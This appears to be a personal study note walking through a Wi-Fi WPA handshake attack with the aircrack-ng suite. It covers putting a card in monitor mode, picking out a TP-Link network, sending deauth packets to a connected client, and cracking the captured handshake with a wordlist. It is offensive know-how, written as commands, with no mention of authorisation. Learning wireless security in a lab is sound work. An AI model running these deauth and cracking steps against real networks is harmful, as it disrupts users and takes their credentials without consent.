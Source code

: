 **==First of all in the VM we need to connect our wireless card. So we go to:==**
- `Player` -> `removable devices` -> name of card WLAN -> `connect`
- ![[Pasted image 20250110103603.png]]


At this point we can start with the attack.

# Place card in monitor mode

**==To start it we need to use==** `airmon-ng`

```bash
airmon-ng check kill
```
- it will stop all the processes that blocks our card to be in monitor mode
- ![[Pasted image 20250110103751.png]]


At this point we start the monitor mode:
```bash
airmon-ng start OUR_CARD
```
- ![[Pasted image 20250110103831.png]]

At this point our card changes name to `previous_name_mon`
- ![[Pasted image 20250110104127.png]]



We need the monitor mode to capture all the packets in the wireless range in which we are, so packets of other devices.


# Finding the network we want to attack
**==To do this we need to use==** `airodump-ng`

```bash
airodump-ng OUR_CARDmon 
```
- ![[Pasted image 20250110104227.png]]
- ![[Pasted image 20250110104153.png]]
- This will show us all the networks in our range

The higher the negative number the lower is the distance to the network.
- `-11` is better that `-44`



At this point we identified the `TP-Link`network, we want to attack it.

# monitor tp-link network
**==Now we have the info about the network and we want to monito it in order to capture the packets:==**
```bash
airodump-ng -c channel --bssid MAC_ADDRESS_BSSID -w output_file_name OUR_MONITOR_ADAPTER_NAME
```
- ![[Pasted image 20250110104801.png]]


<mark style="background: #FF5582A6;">At this point we can see the devices connected to the network. If there are no connected devices it may be:</mark>
- we are too far from the router
- no one is connected
- the attack cannot be done in this case


The attack we want to do is the `deauth attack`. 
1. we deauthenticate a device temporarely to force it to reconnect to the network
2. on the reconnection the router and the device do the the handshake
3. we caputure the EOAPL packets of the handshake (we want to crack it)


# Deauth attack
So we have this situation:
- ![[Pasted image 20250110105150.png]]

**==We open now a new terminal and we run:==**
```bash
aireplay-ng -0 5 -a BSSID_NETWORK -c STATION_MAC (the device connected to the router)  OUR_CARD_NAME
```
- `-0` is for `deauth`
- `5` is the number of deauth message we want to send
- ![[Pasted image 20250110105447.png]]
- ![[Pasted image 20250110105501.png]]

In general we can do it on the entire network, not only on one device.

When the device is deauthenticate and reconnects to the router we can capture the handshake:
- ![[Pasted image 20250110105650.png]]

So we can stop the command with `ctrl + c`


At this point we can pass to crack it.

# Handshake cracking

**==Now we just need a wordlist to crack the password.==**

```bash
aircrack-ng -w wordlist.txt -b BSSID_NETWORK capture_file.cap
```
- ![[Pasted image 20250110110201.png]]

It can take a lot of time, but when it is done we can retrieve the password in this way:
- ![[Pasted image 20250110110249.png]]



In general companies uses their name in the password, so we can leverage on it.


